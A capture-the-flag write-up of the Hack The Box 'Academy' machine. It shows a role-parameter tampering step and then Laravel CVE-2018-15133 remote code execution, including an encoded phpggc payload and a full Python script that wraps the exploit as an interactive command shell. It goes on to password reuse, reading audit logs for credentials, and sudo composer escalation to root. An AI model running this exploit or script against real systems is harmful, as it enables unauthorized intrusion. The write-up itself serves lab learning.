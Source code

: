 ```yaml
---
title: Academy HTB Writeup
date: '2021-02-27 17:00:00'
author: fuxsocy
description: Academy By Fuxsocy
categories: ["htb"]
banner_img: /img/Academy.png
---
```


# Academy 🎓

First scan of nmap we have 2 ports open.

![nmap_Scan](https://user-images.githubusercontent.com/16364370/101256498-4cf78f00-3717-11eb-891d-87762c005e07.png)

Visiting the website we are redirected to a domain name: academy.htb
I add this to my /etc/hosts file and then visit again. I have a front page with no function at all. But I have 2 options to goto, one is login and the one is register. Upon visiting I have a form in which I can create a user. I try admin:admin and I am being redirected to a page which greats me with Welcome and then redirects me to the login page. I login and get to the front page.

{home.php photo page}

I can see that I am not loggedin as the username I entered the credentials for. I goto register again and add another user but again I am logged in as egre55. 

I add a ffuf scan to find potential directories and files. The website has no working functionality at all. 

![ffuf](https://user-images.githubusercontent.com/16364370/101256462-4a953500-3717-11eb-8cf6-55321f831a49.png)

I found found a file admin.php. I am provided a login form again. Trying the same credentials I tried on login.php I cannot login. After looking about potential ways to bypass admin.php or trying to find the credentials by using ffuf. I opened burp and intercepted every request made to login,register,admin and other parts of the website. 

![register](https://user-images.githubusercontent.com/16364370/101256517-4e28bc00-3717-11eb-9e5d-0b520aaad213.png)

On register page I there are 4 parameters the {uid,password,confirm,roleid=0}. The roleid was by default set to 0, when I see a parameter as 0 I think of this as false or as lower privilages in this case. Every time we created a user we sent this parameter as 0, lets try to create a user and set it as 1, and then try to login to admin.php.

![admin](https://user-images.githubusercontent.com/16364370/101255951-1b7ec380-3717-11eb-8d6d-a31f2f6a20f0.png)

So this is a planner they have for the academy.htb page which isn't yet functionaly. Everything is set as done except one which is pending. I add that subdomain on my /etc/hosts file again and visit the website.

![dev_staging_01_error_log](https://user-images.githubusercontent.com/16364370/101255999-1faae100-3717-11eb-9c27-75454bcf5ce8.png)


We have a lot of errors. One of the errors is about laravel logs. Laravel is a php framework. At my right I also have some enviroment information and details. I also have mysql username and password. I try to login with those to ssh but nothing. mysql port is closed so I didn't try them with mysql. I am left with nothing but to search about laravel vulnerabilities. I didn't manage to find the exact version of it so I tried every exploit I could find of. 
This repo https://github.com/kozmic/laravel-poc-CVE-2018-15133 had one exploit that worked. To make this work we need the app_key which we got from the website error. If we didn't have we couldn't use it. 

Following the repo instructions we have to:
* Install phpgcc (sudo apt install phpgcc)
** Generate an unserialized payload `phpgcc Laravel/RCE1 system 'id'`
* Encrypt the payload with the app_key using ./cve-2018-15133.php dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MTU6IkZha2VyXEdlbmVyYXRvciI6MTp7czoxMzoiACoAZm9ybWF0dGVycyI7YToxOntzOjg6ImRpc3BhdGNoIjtzOjY6InN5c3RlbSI7fX1zOjg6IgAqAGV2ZW50IjtzOjg6InVuYW1lIC1hIjt9
* Send the previous string as a X-XSRF-TOKEN header

I created a simple script to do this for me so I can execute commands faster.

_automatecve2018-15133.py:_

```
import requests,subprocess,base64,re

from bs4 import BeautifulSoup
app_key = "dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
url = "http://dev-staging-01.academy.htb/"



while(1):
    command = input("Enter command: ")
    phpggc = subprocess.Popen(["phpggc", "Laravel/RCE1", "system", command], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    gadget = phpggc.stdout.read()
    encodedgadget = base64.b64encode(gadget)
    cve = subprocess.Popen(["./cve-2018-15133.php", app_key, encodedgadget], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    token = cve.stdout.read()
    token = token.decode("utf-8")
    payload = re.findall(r"TOKEN:(.*?)\n", token)[0]
    headers = {'X-XSRF-TOKEN':payload.strip()}
    r = requests.post(url, headers=headers)
    html = BeautifulSoup(r.text, 'html.parser').prettify()
    print(html.split('\n')[0])
```

I use the script and execute a reverse shell on my machine. I am logged in as www-data. I try to look into config files located at /var/www/ to find any potential passwords to databases. On laravel web applications these information are stored inside .env file. Beside the .env file I saw for the dev staging subdomain I find another inside the academy folder. This time I have a password `mySup3rP4s5w0rd!!`. Mysql is opened but I cannot login with these credentials. I cat the `/etc/passwd` file and find the users on the machine and try the password against each user. 

![cry0l1t3su](https://user-images.githubusercontent.com/16364370/101255992-1f124a80-3717-11eb-8b21-3725293ee843.png)

cry0l1t3 is the user which reused the password and got pwned :D. Now I run lineum script but didn't manage to find anything useful. After more than half an hour of trying to find something juicy I find out that I belong to adm group. As per https://wiki.debian.org/SystemGroups `adm: Group adm is used for system monitoring tasks. Members of this group can read many log files in /var/log`. I go and search on /var/log folder for passwords or anything similar which can give me more info to go near root user :D. After some help from my friend [suljot](https://pi0x73@github.io), I found out commands are logged inside audit folder and are encoded as hex. Each command has `type=TTY`, so I can all the files and grep that. 

`cat /var/log/audit/* | grep 'type=TTY' > /tmp/a`
`cat /tmp/a | awk -F'data=' '{print $2}' | xxd -r -p > tty`
`less tty`
![mrb3n](https://user-images.githubusercontent.com/16364370/101256491-4c5ef880-3717-11eb-9a88-9e11c91e88a8.png)

The password works with user mrb3n. This user can run composer as root. I go and find a way on [gtfobins](https://gtfobins.github.io/gtfobins/composer/#sudo) and get root.
![composerroot](https://user-images.githubusercontent.com/16364370/101255975-1de11d80-3717-11eb-91c4-7032e3fed47e.png)